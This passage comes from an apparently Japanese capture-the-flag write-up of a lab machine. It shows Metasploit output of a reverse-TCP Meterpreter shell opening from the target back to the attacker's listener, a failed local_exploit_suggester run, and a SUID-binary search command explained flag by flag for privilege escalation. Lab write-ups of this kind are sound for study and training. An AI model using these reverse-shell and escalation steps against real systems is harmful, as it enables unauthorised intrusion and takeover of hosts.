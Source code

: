 ![スクリーンショット 2020-06-11 17.51.26.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/2969454d-0dda-3768-df4f-119079035651.png)

```
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.4:4444 
[*] Sending stage (38288 bytes) to 10.10.10.29
[*] Meterpreter session 1 opened (10.10.14.4:4444 -> 10.10.10.29:36696) at 2020-06-11 17:51:09 +0900

meterpreter > getuid
Server username: www-data (33)
```
ハンドラの方に反応があり、meterpreterを確立できました。


# 特権エスカレーション
いつも通りmeterpreterで接続を確立しているので、local_exploit_suggesterを使って権限昇格に使えそうな物がないか探します。

```
msf5 exploit(multi/handler) > use post/multi/recon/local_exploit_suggester 
msf5 post(multi/recon/local_exploit_suggester) > set session 2
session => 2
msf5 post(multi/recon/local_exploit_suggester) > run

[*] 10.10.10.29 - Collecting local exploits for php/linux...
[-] 10.10.10.29 - No suggestions available.
[*] Post module execution completed
msf5 post(multi/recon/local_exploit_suggester) > 
```

しかし、権限昇格に使えそうなものは何も発見できませんでした。
Windowsではカーネルエクスプロイトが見つかりますが、Linuxではいつも何も見つからない印象です。
別の方法を試してみましょう。

Linuxでは、SUIDビットが有効になっている場合、既存のバイナリとコマンドの一部をroot以外のユーザーが使用して、rootアクセス権限を昇格させることができます。
SUIDファイルを見つけましょう。
下記のコマンドを実行するとSUIDアクセス許可を物全てのバイナリを列挙することができます。
参考:
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md#suid
https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/

```
find / -perm -u=s -type f 2>/dev/null
```

- /は、ファイルシステムの先頭（ルート）から開始し、すべてのディレクトリを検索
- -permは、後続の権限の検索
- -u=sは、rootユーザーが所有するファイルを検索
- -typeは、探しているファイルの種類を示します
- fは、ディレクトリや特殊ファイルではなく、通常のファイルを示す
- 2はプロセスの2番目のファイル記述子であるstderr（標準エラー）を示す
- >はリダイレクトを意味する
- /dev/nullは、書き込まれたすべてのものを破棄する特別なファイルシステムオブジェクト

